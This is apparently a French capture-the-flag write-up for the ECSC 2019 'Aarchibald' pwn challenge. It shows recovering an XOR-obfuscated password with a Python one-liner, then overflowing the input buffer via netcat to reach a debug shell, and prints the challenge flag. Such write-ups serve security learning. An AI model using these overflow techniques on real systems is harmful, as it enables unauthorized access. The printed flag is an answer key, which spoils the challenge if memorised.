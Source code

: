 **Aarchibald WUP from ECSC 2019** 

Ahhhh, un peu de PWN pour changer, aujourd'hui on va attaquer un binaire qui était plutôt basique.

```
l0uky@parrot: ~ $ nc challenges.ecsc-teamfrance.fr 4005
Please enter your password:
coucou  
Sorry, that's not the correct password.
Bye.
```

Tout d'abord ouvrons notre binaire avec Ghidra et regardons la fonction "sym.main" (ou juste main)

<img src="https://i.imgur.com/qv3X6MT.png">

On voit tout d'abord que nous avons une condition de verification du password.

L'entrée utilisateur est comparée à `eCfSDFwEeAYDr` et est xorified + 0x36.

Bon déjà on remarque qu'il n'y a pas de verification du buffer, donc ça sera sûrement un buffer overflow.

Essayons donc d'entrer un payload basique.

```
l0uky@parrot: ~ $ (echo "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"; cat) | nc challenges.ecsc-teamfrance.fr 4005
Please enter your password:
Sorry, that's not the correct password.
Bye.
```


J'ai peut être pas mis assez de "a"

```
l0uky@parrot: ~ $ python -c 'print("A" * 120)' | nc challenges.ecsc-teamfrance.fr 4005
Please enter your password:
Sorry, that's not the correct password.
Bye.
```

Rien à y faire, il n'a pas l'air de vouloir, essayons donc de trouver le mot de passe.

```
>>> "".join([chr(i ^ 0x36) for i in b"eCfSDFwEeAYDr"])
'SuPerpAsSworD'
```

On a donc le pass déchiffré. Entrons le.

```
l0uky@parrot: ~ $ (echo "SuPerpAsSworD"; cat) | nc challenges.ecsc-teamfrance.fr 4005
Please enter your password:
Welcome back!
ls 
```

Très bien, on a réussis à entré; mais aucun shell n'a pop, testons donc d'ajouter un payload à côté.



```
l0uky@parrot: ~ $ nc challenges.ecsc-teamfrance.fr 4005
Please enter your password:
SuPerpAsSworDaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Welcome back!
Entering debug mode
ls
aarchibald
flag
run.sh
cat flag
ECSC{32fb7ccc57121703b0a9a401e269e774c561b2bc}
```

Et voilà, nous avons donc le flag ***ECSC{32fb7ccc57121703b0a9a401e269e774c561b2bc}***
